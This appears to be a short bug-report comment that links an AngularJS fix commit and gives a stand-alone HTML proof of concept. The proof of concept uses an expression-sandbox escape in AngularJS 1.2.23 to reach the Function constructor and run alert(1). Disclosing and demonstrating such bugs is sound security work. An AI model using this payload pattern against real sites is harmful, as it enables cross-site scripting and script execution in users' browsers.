 This commit fix the issue: https://github.com/angular/angular.js/commit/b39e1d47b9a1b39a9fe34c847a81f589fba522f8

Stand-alone example:
```
<html ng-app>
    <head>
        <meta charset="utf-8">
        <script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.2.23/angular.js"></script>
    </head>
    <body>
    {{toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a","alert(1)"].sort(toString.constructor)}}
    </body>
</html>
```